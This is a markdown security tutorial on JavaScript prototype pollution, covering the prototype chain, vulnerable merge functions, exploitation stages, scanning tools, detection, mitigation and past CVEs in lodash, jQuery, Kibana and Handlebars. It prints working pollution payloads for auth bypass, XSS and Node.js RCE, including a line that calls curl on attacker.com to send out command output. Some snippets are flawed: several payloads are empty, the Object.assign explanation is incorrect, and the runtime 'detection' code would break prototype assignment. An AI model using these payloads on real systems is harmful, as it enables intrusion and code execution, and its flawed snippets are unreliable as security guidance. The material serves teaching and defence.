


# Prototype Pollution

> **Prototype Pollution is an attack where an adversary injects properties into JavaScript's `Object.prototype`, causing every object in the application to inherit attacker-controlled values — enabling XSS, auth bypass, and remote code execution.**

---

## 🧠 What Is It? (Beginner Explanation)

Imagine every word in the English language shares the same master dictionary. Now imagine someone sneaks in and writes a sticky note on **the dictionary itself** that says "isAdmin = true". Every single word — every object that reads from that dictionary — now believes it has the property `isAdmin` set to `true`, even if no one explicitly gave it that property.

That's Prototype Pollution.

In JavaScript, **every object inherits properties from `Object.prototype`** — the master blueprint. If an attacker can write to `Object.prototype`, every object in the entire application suddenly inherits those polluted properties.

### Quick Sanity Check

```javascript
// Normal behavior
const user = {};
console.log(user.isAdmin); // undefined

// After prototype pollution
Object.prototype.isAdmin = true;
console.log(user.isAdmin); // true  ← POISONED
```

This becomes catastrophic when the app checks `if (user.isAdmin)` — it now evaluates to `true` for **every user**.

---

## 🏗️ How It Works (Technical Deep Dive)

### The JavaScript Prototype Chain

Every JavaScript object has an internal `[[Prototype]]` slot, accessible via `__proto__`. When you access a property on an object, JS walks up the chain until it finds it (or hits `null`).

```
myObj
  └─ __proto__ → MyClass.prototype
                    └─ __proto__ → Object.prototype
                                      └─ __proto__ → null
```

```javascript
const arr = [1, 2, 3];
// arr → Array.prototype → Object.prototype → null

arr.hasOwnProperty("length"); // found on Array.prototype
arr.toString();               // found on Object.prototype
arr.nonExistent;              // walks full chain → undefined
```

### Property Lookup Rules

1. Check the object itself (own properties)
2. Walk up `__proto__` chain
3. First match wins — **inherited properties are overridden by own properties**

This is the key: if `Object.prototype.isAdmin = true`, any object without its own `isAdmin` property will "inherit" `true`.

---

## 📊 Attack Flow Diagram



---

## ⚙️ Technical Details

### Why Merge Functions Are Dangerous

The classic vulnerable pattern is any function that recursively merges objects by iterating over keys:

```javascript
// VULNERABLE: naive deep merge
function merge(target, source) {
  for (let key in source) {
    if (typeof source[key] === 'object') {
      merge(target[key], source[key]); // recursion
    } else {
      target[key] = source[key]; // ← KEY ASSIGNMENT — pollutes if key is __proto__
    }
  }
}

// Attacker payload
const malicious = JSON.parse('{"__proto__": {"isAdmin": true}}');
merge({}, malicious);

// Now every object is an admin
const victim = {};
console.log(victim.isAdmin); // true
```

### Three Pollution Vectors

#### Vector 1: `__proto__` key

```javascript
{"__proto__": {"isAdmin": true}}
// Directly targets Object.prototype
```

#### Vector 2: `constructor.prototype`

```javascript
{"constructor": {"prototype": {"isAdmin": true}}}
// Goes through constructor property to reach prototype
```

#### Vector 3: Nested `__proto__`

```javascript
{"__proto__": {"__proto__": {"isAdmin": true}}}
// Targets prototype of prototype (less common, depends on depth)
```

### `Object.assign()` — NOT Vulnerable (Important Distinction!)

```javascript
// Object.assign copies OWN enumerable properties only
// It does NOT recursively merge — so __proto__ is treated as a literal key assignment
// on the target, not a prototype mutation. Still safe.

const result = Object.assign({}, JSON.parse('{"__proto__": {"x": 1}}'));
// result now has own property __proto__ = {x:1}, not pollution
console.log({}.x); // undefined — Object.prototype is clean
```

### Lodash `_.merge()` — VULNERABLE

```javascript
const _ = require('lodash'); // versions < 4.17.12

_.merge({}, JSON.parse('{"__proto__": {"polluted": "yes"}}'));
console.log({}.polluted); // "yes" — POLLUTED
```

This is **CVE-2019-10744**.

---

## 💥 Exploitation (Step-by-Step)

### Stage 1: Client-Side Prototype Pollution

#### Via URL Parameters

Many SPA frameworks parse URL query strings into objects. Tools like `jquery-deparam`, `qs` (old versions), and custom parsers are often vulnerable.

```
# Test in browser URL bar:
https://target.com/?__proto__[isAdmin]=true
https://target.com/?__proto__.isAdmin=true
https://target.com/?constructor[prototype][isAdmin]=true

# Verify in DevTools console:
({}).isAdmin  // Should return "true" if polluted
```

#### Via JSON Body

```http
POST /api/user/settings HTTP/1.1
Content-Type: application/json

{
  "__proto__": {
    "isAdmin": true,
    "debugMode": true
  }
}
```

#### Via Form/URL-encoded

```
POST /profile HTTP/1.1
Content-Type: application/x-www-form-urlencoded

__proto__[isAdmin]=true&__proto__[role]=admin
```

### Stage 2: Finding Gadget Sinks (Client-Side)

After polluting, you need a **gadget** — code that uses the polluted property in a dangerous way.

```javascript
// Gadget 1: innerHTML sink → XSS
document.getElementById('welcome').innerHTML = config.welcomeMessage;
// Pollute: __proto__[welcomeMessage] = ""

// Gadget 2: href/src sink → XSS
link.href = user.redirectUrl;
// Pollute: __proto__[redirectUrl] = "javascript:alert(1)"

// Gadget 3: eval sink → RCE (Node.js)
eval(options.template);
// Pollute: __proto__[template] = "require('child_process').execSync('id')"

// Gadget 4: setTimeout/setInterval
setTimeout(config.callback, 1000);
// Pollute: __proto__[callback] = "alert(1)"
```

### Stage 3: Server-Side Prototype Pollution (Node.js RCE)

This is where it gets critical. In Node.js, prototype pollution can reach `child_process` execution.

#### RCE via `shell` property

```javascript
// Vulnerable code pattern:
const { execSync } = require('child_process');
const options = merge({}, userInput);  // merge pollutes Object.prototype
execSync('ls', options);               // options.shell is now attacker-controlled
```

```json
{
  "__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--require /proc/self/fd/0"
  }
}
```

#### RCE via `env` in child_process

```json
{
  "__proto__": {
    "env": {
      "NODE_OPTIONS": "--require /proc/self/fd/0"
    },
    "shell": "/proc/self/exe"
  }
}
```

#### Full RCE Payload (Kibana-style)

```javascript
// Pollute __proto__.shell for child_process.exec
{
  "__proto__": {
    "shell": "node",
    "NODE_OPTIONS": "--require /proc/self/fd/0",
    "env": {
      "EVIL": "require('child_process').exec('curl http://attacker.com/`id`')"
    }
  }
}
```

#### Alternative: Polluting `spawn` options

```json
{
  "__proto__": {
    "argv0": "node",
    "shell": true,
    "env": {
      "NODE_DEBUG": "module",
      "NODE_OPTIONS": "--inspect=0.0.0.0:9229"
    }
  }
}
```

### Stage 4: Authentication Bypass via Pollution

```javascript
// Vulnerable auth check
app.post('/admin', (req, res) => {
  const user = req.session.user; // e.g., { username: "alice" }
  if (user.isAdmin) {            // ← reads from prototype if own prop missing
    return res.json({ flag: process.env.FLAG });
  }
  res.status(403).send('Forbidden');
});
```

```http
POST /settings HTTP/1.1
Content-Type: application/json

{"__proto__": {"isAdmin": true}}

# Now GET /admin → returns flag
```

### Stage 5: Template Engine Exploitation

```javascript
// Handlebars (CVE-2019-19919)
const template = Handlebars.compile("{{message}}");
const result = template(JSON.parse(payload));

// Payload:
{
  "__proto__": {
    "pendingContent": "<script>alert(1)</script>"
  }
}
```

---

## 🛠️ Tools

### ppmap — Automated Client-Side PP Detection

```bash
# Install
git clone https://github.com/kleiton0x00/ppmap
cd ppmap && npm install

# Scan a URL
node ppmap.js -u "https://target.com/"

# With custom headers
node ppmap.js -u "https://target.com/" -H "Cookie: session=abc123"

# Scan all URLs from file
cat urls.txt | node ppmap.js
```

### DOM Invader (Burp Suite)

```
1. Open Burp browser → Extensions → DOM Invader
2. Enable "Prototype Pollution" canary
3. Browse the target application
4. DOM Invader auto-injects __proto__ payloads via URL/forms
5. Check "Prototype Pollution" tab for hits and gadgets
```

### Server-Side PP Scanner (Burp Extension)

```
1. Install: BApp Store → "Server-Side Prototype Pollution Scanner"
2. Right-click any JSON request → Extensions → SSPP Scanner
3. Scanner tests all parameters with __proto__ variants
4. Reviews response differences for pollution confirmation
```

### Manual Chrome DevTools Check

```javascript
// Open DevTools (F12) → Console tab

// 1. Check if Object.prototype is polluted
Object.keys(Object.prototype)  
// Clean: []  
// Polluted: ["isAdmin", "debugMode", ...]

// 2. Inspect specific property
({}).isAdmin
// Clean: undefined
// Polluted: true

// 3. Check constructor path
({}).constructor.prototype === Object.prototype  // always true
Object.getPrototypeOf({})  // shows Object.prototype
```

### Nuclei Templates for PP

```bash
# Install nuclei
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest

# Run prototype pollution templates
nuclei -u https://target.com -t fuzzing/prototype-pollution/

# With custom header
nuclei -u https://target.com -t fuzzing/prototype-pollution/ \
  -H "Authorization: Bearer TOKEN"
```

### Burp Suite Manual Testing

```
1. Intercept any JSON POST request
2. Add to body: ,"__proto__":{"pp_test":"polluted"}
3. Send request
4. In subsequent requests, check if pp_test appears in responses
5. Try URL: add ?__proto__[pp_test]=polluted to any GET
6. Monitor for reflected values or behavioral changes
```

---

## 🔍 Detection

### In Code (SAST)

Look for these patterns in JavaScript/Node.js source:

```javascript
// RED FLAGS — potential sinks:
target[key] = source[key]          // unfiltered key assignment
obj[userInput] = value             // direct bracket notation with user input
merge(target, userInput)           // any merge with user data
_.merge(obj, req.body)             // lodash merge with request body
Object.assign(deep, userInput)     // deep assign patterns
JSON.parse(input, reviverFn)       // reviver functions

// Look for checks MISSING these safeguards:
if (key === '__proto__') continue;            // missing guard
if (key === 'constructor') continue;          // missing guard
Object.prototype.hasOwnProperty.call(source, key)  // safe pattern
```

### In Runtime (Detection Headers)

```javascript
// Add to app startup for monitoring
const originalDefineProperty = Object.defineProperty;
Object.defineProperty(Object.prototype, '__proto__', {
  set(value) {
    console.error('[ALERT] __proto__ write attempt:', new Error().stack);
  }
});
```

### Behavioral Indicators

```
1. Unexpected properties appearing on plain {} objects
2. Auth bypasses affecting all users simultaneously  
3. Admin features becoming accessible to non-admins
4. Sudden changes in application behavior after JSON parsing
5. Error logs showing unexpected property reads on prototypes
```

---

## 🛡️ Mitigation

### 1. Freeze Object.prototype (Strongest Defense)

```javascript
// At application startup — prevents any writes to Object.prototype
Object.freeze(Object.prototype);

// Test it works:
try {
  Object.prototype.x = 1; // Should throw in strict mode
} catch(e) {
  console.log('Prototype is frozen — safe');
}
```

### 2. Use `Object.create(null)` for Config Objects

```javascript
// Creates object with NO prototype — pollution-immune
const config = Object.create(null);
config.theme = "dark";
// config.__proto__ is undefined — cannot be polluted
```

### 3. Key Sanitization in Merge Functions

```javascript
function safeMerge(target, source) {
  const BLOCKED_KEYS = new Set(['__proto__', 'constructor', 'prototype']);
  
  for (const key of Object.keys(source)) {
    if (BLOCKED_KEYS.has(key)) continue;  // BLOCK
    
    if (typeof source[key] === 'object' && source[key] !== null) {
      target[key] = target[key] || {};
      safeMerge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
  return target;
}
```

### 4. Use `hasOwnProperty` Check

```javascript
// Safe property assignment pattern
function merge(target, source) {
  for (const key in source) {
    if (Object.prototype.hasOwnProperty.call(source, key)) {
      target[key] = source[key];
    }
  }
}
```

### 5. JSON Schema Validation

```javascript
const Ajv = require('ajv');
const ajv = new Ajv();

const schema = {
  type: 'object',
  additionalProperties: false,  // ← blocks __proto__ as unexpected key
  properties: {
    username: { type: 'string' },
    email: { type: 'string', format: 'email' }
  }
};

const valid = ajv.validate(schema, req.body);
if (!valid) return res.status(400).json({ error: 'Invalid input' });
```

### 6. Update Vulnerable Libraries

```bash
# Check for known vulnerable versions
npm audit

# Fix lodash (CVE-2019-10744)
npm install lodash@^4.17.21

# Fix jquery (CVE-2019-11358)  
npm install jquery@^3.5.0

# Automated fix
npm audit fix
```

---

## 🐛 Real CVE Examples

### CVE-2019-10744 — Lodash `_.merge()` RCE

- **Severity**: CVSS 9.1 (Critical)
- **Affected**: lodash < 4.17.12
- **Vector**: `_.merge({}, userInput)` where userInput contains `__proto__`

```javascript
// Vulnerable code (lodash < 4.17.12)
const _ = require('lodash');
const userInput = JSON.parse('{"__proto__":{"polluted":true}}');
_.merge({}, userInput);

// Impact: prototype pollution → all objects inheriting polluted props
// In some configurations → RCE via spawned processes
```

```bash
# Exploit PoC
node -e "
const _ = require('lodash');
_.merge({}, JSON.parse('{\"__proto__\":{\"polluted\":\"CVE-2019-10744\"}}'));
console.log({}.polluted); // CVE-2019-10744
"
```

---

### CVE-2019-11358 — jQuery `$.extend()` Deep Prototype Pollution

- **Severity**: CVSS 6.1 (Medium)
- **Affected**: jQuery < 3.4.0
- **Vector**: `$.extend(true, {}, userControlledObject)`

```javascript
// Vulnerable
$.extend(true, {}, JSON.parse('{"__proto__":{"xss":""}}'));

// Any subsequent code reading .xss from any object gets the XSS payload
$('#output').html(({}).xss); // Executes XSS
```

---

### CVE-2019-7609 — Kibana Prototype Pollution to RCE

- **Severity**: CVSS 8.1 (High)
- **Affected**: Kibana < 6.6.1 and < 5.6.15
- **Vector**: Timelion chart expression → prototype pollution → RCE

```bash
# The Kibana Timelion expression was parsed with a vulnerable merge
# Payload sent to /api/timelion/run:
{
  "sheet": [
    ".es(*).props(label.__proto__.x='<payload>')"
  ]
}

# Full RCE payload (Linux):
.es(*).props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"id > /tmp/pwned\")//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/fd/0')
```

---

### CVE-2019-19919 — Handlebars Template RCE

- **Severity**: CVSS 9.8 (Critical)
- **Affected**: Handlebars < 4.3.0
- **Vector**: Template compilation + prototype pollution → arbitrary code execution

```javascript
// Attacker controls template input
const source = "{{#with __proto__}}{{wrapHelper}}{{/with}}";
const template = Handlebars.compile(source);
template({ wrapHelper: () => { require('child_process').exec('id') } });

// Or via pollution:
const payload = {
  "__proto__": {
    "pendingContent": "{{#with constructor}}{{#with split as |a|}}{{pop (push 'alert(1)')}}{{/with}}{{/with}}"
  }
};
```

---

## 📊 Prototype Chain Visualization



---

## 📚 References

| Resource | Link |
|----------|------|
| PortSwigger Web Academy — Prototype Pollution | https://portswigger.net/web-security/prototype-pollution |
| NVD — CVE-2019-10744 (Lodash) | https://nvd.nist.gov/vuln/detail/CVE-2019-10744 |
| NVD — CVE-2019-11358 (jQuery) | https://nvd.nist.gov/vuln/detail/CVE-2019-11358 |
| NVD — CVE-2019-7609 (Kibana) | https://nvd.nist.gov/vuln/detail/CVE-2019-7609 |
| NVD — CVE-2019-19919 (Handlebars) | https://nvd.nist.gov/vuln/detail/CVE-2019-19919 |
| ppmap Tool | https://github.com/kleiton0x00/ppmap |
| Server-Side PP Research (BlackFan) | https://github.com/BlackFan/server-side-prototype-pollution |
| Prototype Pollution to RCE | https://research.securitum.com/prototype-pollution-rce/ |
| OWASP Prototype Pollution | https://owasp.org/www-community/vulnerabilities/Prototype_Pollution |
| DOM Invader Docs | https://portswigger.net/burp/documentation/desktop/tools/dom-invader |

---

*Last updated: 2025 | Difficulty: Intermediate–Advanced | Tags: `javascript`, `nodejs`, `prototype-pollution`, `rce`, `xss`, `cve`*
